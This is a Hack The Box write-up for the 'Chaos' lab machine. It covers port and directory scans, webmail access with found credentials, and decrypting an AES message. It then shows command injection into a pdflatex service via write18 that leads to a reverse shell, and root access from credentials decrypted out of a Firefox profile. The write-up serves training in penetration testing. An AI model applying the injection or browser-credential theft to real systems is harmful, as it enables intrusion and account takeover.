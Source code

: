 ```yaml
---
layout: post
title:  "HTB Writeup - Chaos"
date:   2019-05-04 12:59:50 +0000
---
```


# HTB Writeup - Chaos
<br />
As always, I start with nmap: 
```
root@kali:~/chaos# nmap -A -sS -sV -p- 10.10.10.120
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-04 06:46 EDT
Nmap scan report for 10.10.10.120
Host is up (0.054s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE           VERSION
80/tcp    open  http?
110/tcp   open  pop3?
| fingerprint-strings: 
|   GenericLines, NULL: 
|_    +OK Dovecot (Ubuntu) ready.
143/tcp   open  imap              Dovecot imapd (Ubuntu)
993/tcp   open  imaps?
995/tcp   open  pop3s?
10000/tcp open  snet-sensor-mgmt?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port110-TCP:V=7.70%I=7%D=5/4%Time=5CCD6DB3%P=x86_64-pc-linux-gnu%r(NULL
SF:,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n")%r(GenericLines,1D," SF:\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.20 seconds.
```
<br />

Here we can see that there are a few open ports. Let's start with the 80.
http:/10.10.10.120/
<img src="/assets/chaos1.PNG" alt="drawing" width="600"/>
<img src="/assets/chaos2.PNG" alt="drawing" width="600"/>



The website appeared quite empy, so I ran dirb: 
```
root@kali:~/chaos# dirb http://10.10.10.120/ /usr/share/dirb/wordlists/common.txt

------

DIRB v2.22

## By The Dark Raver

START_TIME: Sat May  4 07:23:03 2019
URL_BASE: http://10.10.10.120/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.120/ ----

- http://10.10.10.120/index.html (CODE:200|SIZE:73)
  ==> DIRECTORY: http://10.10.10.120/javascript/
- http://10.10.10.120/server-status (CODE:403|SIZE:300)
  ==> DIRECTORY: http://10.10.10.120/wp/

---- Entering directory: http://10.10.10.120/javascript/ ----
==> DIRECTORY: http://10.10.10.120/javascript/jquery/

---- Entering directory: http://10.10.10.120/wp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.120/javascript/jquery/ ----

- http://10.10.10.120/javascript/jquery/jquery (CODE:200|SIZE:268026)

------

END_TIME: Sat May  4 07:33:01 2019
DOWNLOADED: 13836 - FOUND: 3
```
<br />
The most interesting directory is /wp. For this reason I used WPScan.

It found a web page protected by password. Since previously I found a comment posted by human, I tried human:human, and it worked!
```
Protected: chaos
creds for webmail

username - ayush
password - jiujitsu
```
# POP and IMAP

I tried to investigate POP3s:
```
root@kali:~# socat  - OPENSSL:chaos:995,verify=0 
+OK Dovecot (Ubuntu) ready.
USER ayush
+OK
PASS jiujitsu
+OK Logged in.
```
<br />

The credentials worked, but the enumeration dind't find anything interesting.

I tried with sslclient, I had numerous fails in trying to talk to this service. After enumerating, I found out there a message in the Drafts:
<img src="/assets/chaos3.PNG" alt="drawing" width="600"/>


```
root@kali:~/chaos# cat mail 
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush

enim_msg.txt

0000000000000234®îªzŠØ³pK8…ZCƒÌõð¹‰^9ä¯kW‡À•Ô&wø9Ü¾©‚ö½EÓä'q’[žèžû9îZ‹Þ3€«íæ.žC–¹ÚÁí¬Ë;¬Ø3Áø•¢¾ó6¼ŸR`n
```

The attachment enim_msg.txt was some encrypted string, and in addition there was also a Python script with what looked like the function used to encrypt the content.
```
root@kali:~/chaos# cat en.py def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

encryptor = AES.new(key, AES.MODE_CBC, IV)

with open(filename, 'rb') as infile:
    with open(outputFile, 'wb') as outfile:
        outfile.write(filesize.encode('utf-8'))
        outfile.write(IV)

        while True:
            chunk = infile.read(chunksize)

            if len(chunk) == 0:
                break
            elif len(chunk) % 16 != 0:
                chunk += b' ' * (16 - (len(chunk) % 16))

            outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```
Looking around on the internet, I found that this is a snippet of code from a AES encryption/decryption tool, but instead I decided to just write the decryption function myself.

```
def decrypt(key):
    chunksize = 64*1024
    input_file = "enim_msg.txt"
    filecontent = open(input_file, 'rb').read()
    print('File content %s bytes' % len(filecontent))
    filesize = filecontent[:16]
    IV = filecontent[16:32]
    ciphertext = filecontent[32:]
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    print(decryptor.decrypt(ciphertext))
    
File content 272 bytes
b'SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK\n\n
```
At this point the message decrypted was clearly base64 encoded, so I decoded it.
```
root@kali:~/chaos# echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```
The link pointed to some PDF generation page. Here we could insert some code and choose a template, and some PDF would have been generated for us (or at least that’s what the page claimed).

Checking the actual response that the server was giving me, I could see that there was some LaTeX engine behind the page, as the response contained the execution log of the pdflatex command.

I googled for potential vulnerability, and found that [it was possible to inject commands by using \immediate\write18{$CMD} in the PDF generation box][(https://0day.work/hacking-with-latex/).

First I tried some commands to see what I could do, checking the output from the server response. After I could not find anything interesting I decided to just execute as CMD a Python reverse shell, while listening with nc from Kali. So I got a shell as www-data.

After several rabbit holes, getting the user flag was just issueing this command:
```
www-data@chaos:/etc/dovecot$ su ayush
su ayush
Password: jiujitsu
```
The shell I got was very restricted, so I spawned a new shell with python: 
```
su -c "python -c 'import pty; pty.spawn(\"/bin/bash\")' " ayush
```
<br />
# Priviledge Escalation
<br />
The Privesc was not difficult, since in the home directory I found a mozilla folder with backups of user profile. The credentials in that file were encrypted, however I found a tool to decrypt it:
```
ayush@chaos:~/.mozilla$ python firefox_decrypt.py firefox
python firefox_decrypt.py firefox

Master Password for profile firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
<br />

With this credentials it was possible to login to the webmin interface and get the root flag.
